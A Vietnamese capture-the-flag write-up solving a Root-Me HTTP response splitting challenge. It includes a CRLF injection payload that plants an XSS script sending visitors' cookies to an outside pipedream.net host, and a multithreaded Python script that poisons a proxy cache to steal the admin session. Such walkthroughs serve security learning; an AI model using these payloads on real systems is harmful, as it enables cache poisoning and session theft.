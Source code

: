 # HTTP Response Splitting

Lưu ý: trước khi giải bài này thì bạn cần phải biết về cách thức tấn công này để có thể thực hiện tấn công thành công. Bạn có thể đọc ở [đây](http://www.moqifei.com/archives/609). Mình đã đọc qua một vài trang viết về HTTP Response Splitting và trang web vừa rồi là trang web viết rõ nhất và dễ hiểu nhất.

Khi mở trang web lên thì mình nhận được yêu cầu phải chọn ngôn ngữ.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_1.png" />
</p>

Thông qua việc tìm hiểu các tài liệu về HTTP Response Splitting, mình biết rằng mình có thể kiểm tra xem trang web có thể bị inject không  bằng việc sử dụng CLRF injection (sử dụng các kí tự `\r\n` để tạo xuống dòng trong request). Mình đã thử sử dụng và thêm vào 1 trường test=true. Sau khi kiểm tra response thì mình thấy dưới trường Set-Cookie của response có thêm trường test=true, tức là mình có thể thực hiện inject được.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_2.PNG" />
</p>

Mình viết thêm đoạn payload như sau:

```
\r\nContent-Length: 0
\r\n
\r\nHTTP/1.1 200 OK
\r\nContent-Type: text/html
\r\nLast-modified: Thu, 01, Jan 2100 12:00:00 GMT
\r\nContent-Length: 138
\r\n
\r\n<script>document.write("<h1>test</h1><img src=http://eoyoae37hp6q6ss.m.pipedream.net".concat(document.cookie).concat(" />"))</script>

```

Ở đây, dòng Content-Length đầu tiên mình gán giá trị bằng 0, tức là inject vào gói response của server để kết thúc response thứ nhất. Sau đó mình viết thêm response thứ 2 cùng đoạn script để thực hiện XSS, gửi dữ liệu về 1 trang web thứ 3 và mình sẽ chờ ở đó để lấy dữ liệu. Last-modified mình set thành 1 giá trị khá lớn để tránh việc cập nhật lại cache của proxy, làm cho việc inject không thành công. Sau đó thực hiện encode url cho payload và gửi cho server.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_3.png" />
</p>

Gửi request và thấy rằng mình đã tạo được 2 response thành công. Tuy nhiên nếu chú ý kĩ thì ở phần response của server trả về có trường Location.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_4.png" />
</p>

Trường này sẽ chỉ định việc redirect về trang /home, và việc này diễn ra rất nhanh, vì vậy không thể thực hiện exploit thành công được. Vì theo mình hiểu thì HTTP response splitting hoạt động dựa vào việc attacker gửi 1 request có kèm payload để nhận về 2 response, 1 response sẽ trả về cho attacker, còn lại 1 response sẽ lưu trữ trên cache của proxy. Lúc này nếu 1 request khác bất kì kết nối đến trong lúc cache còn lưu trữ response kia thì nó sẽ tự động ánh xạ response này cho tất cả các request tương tự. Trong bài này thì attacker sẽ gửi 1 request có kèm payload, sau đó nhận về 2 response, 1 response sẽ được lưu trữ lại trên cache là response thứ 2 (HTTP/1.1 200 OK). Sau đó hắn gửi 1 request tới /admin, response còn lại sẽ được ánh xạ vào request này, tức là từ lúc đó về sau các request tới /admin đều sẽ nhận được response HTTP/1.1 200 OK của attacker dẫn tới việc bị dính đoạn code XSS. Lúc này khi admin vào /admin thì cũng sẽ bị ảnh hưởng tương tự.

Tuy nhiên nhờ vào trường Location có trong http response thì trình duyệt sẽ tự động nhảy về /home ngay lập tức, dẫn tới việc attacker không thể gửi request thứ 2 tới /admin kịp. Vì vậy để exploit thành công thì mình đã viết 1 đoạn code sử dụng multi-threading để có thể gửi request thứ 2 tới /admin trước khi bị chuyển hướng về /home.

```python

import requests
import threading

poisoned_url = "http://challenge01.root-me.org:58002/user/param?lang=en%0D%0AContent-%20Length%3A%200%0D%0A%0D%0AHTTP%2F1.1%20200%20OK%0D%0AContent-Type%3A%20text%2Fhtml%0D%0ALast-modified%3A%20Thu%2C%2001%20Jan%202100%2012%3A00%3A00%20GMT%20%0D%0AContent-Length%3A%20134%0D%0A%0D%0A%3Cscript%3Edocument.write%28%22%3Ch1%3EEXP%3C%2Fh1%3E%3Cimg%20src%3Dhttps%3A%2F%2Feoyoae37hp6q6ss.m.pipedream.net%3F%22.concat%28document.cookie%29.concat%28%22%20%2F%3E%22%29%29%3C%2Fscript%3E"
admin_url = "http://challenge01.root-me.org:58002/admin"
header = {"Pragma":"no-cache"}
cookies = {"user_session":"Your session"}

def poison_func():
	i=0
	while i<1000:
		print("i=" + str(i))
		requests.get(url=poisoned_url,headers=header,cookies=cookies)
		i+=1

def access_func():
	j=0
	while j<1000:
		print("j=" + str(j))
		requests.get(url=admin_url,headers=header,cookies=cookies,allow_redirects=False)
		j+=1

try:
	t1 = threading.Thread(target=poison_func)
	t2 = threading.Thread(target=access_func)
	t3 = threading.Thread(target=poison_func)
	t4 = threading.Thread(target=access_func)
	t1.start()
	t2.start()
	t3.start()
	t4.start()
except:
	print("Error")


```

Chương trình mình viết bao gồm 2 function, 1 để poison cache của proxy bằng việc gửi 1000 payload để inject và 1 để gửi request tới /admin làm cho việc inject thành công. Để chắc chắn mình đã cho 4 luồng chạy song song. Các bạn nhớ thay thế phần url ở biến poisoned_url thành payload của bạn. Đối với user_session cũng tương tự.

Chạy chương trình và đợi 1 khoảng thời gian sau đó để admin ghé thăm /admin thì mình nhận thấy việc inject đã thành công vì đã có 1 request gửi tới trang RequestBin chứa session của admin.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_5.PNG" />
</p>

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_6.png" />
</p>

Đem admin session vừa lấy được đem submit và giải được bài này.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_7.png" />
</p>